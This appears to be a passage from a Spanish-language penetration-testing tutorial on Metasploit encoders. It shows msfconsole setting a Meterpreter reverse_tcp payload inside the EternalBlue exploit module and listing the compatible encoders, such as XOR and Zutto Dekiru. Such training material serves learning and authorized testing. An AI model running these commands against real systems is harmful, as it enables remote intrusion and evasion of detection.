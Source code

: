 <figure><img src="../../.gitbook/assets/shikata_ga_nai.gif" alt=""><figcaption></figcaption></figure>

### Codificadores

Si deseamos seleccionar un codificador para una carga útil existente, podemos usar el comando `show encoders` dentro de **msfconsole** para ver qué codificadores están disponibles para nuestra combinación actual de módulo de explotación + carga útil.

#### Ejemplo de Encoders

```plaintext
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders
```

**Codificadores Compatibles**

```bash
===================
   #  Nombre              Fecha de Divulgación  Rango    Verificación  Descripción
   -  ----              ----------------------  ----    -----------  -----------
   0  generic/eicar                      manual  No     El Codificador EICAR
   1  generic/none                       manual  No     El Codificador "none"
   2  x64/xor                            manual  No     Codificador XOR
   3  x64/xor_dynamic                    manual  No     Codificador XOR de clave dinámica
   4  x64/zutto_dekiru                   manual  No     Zutto Dekiru
```
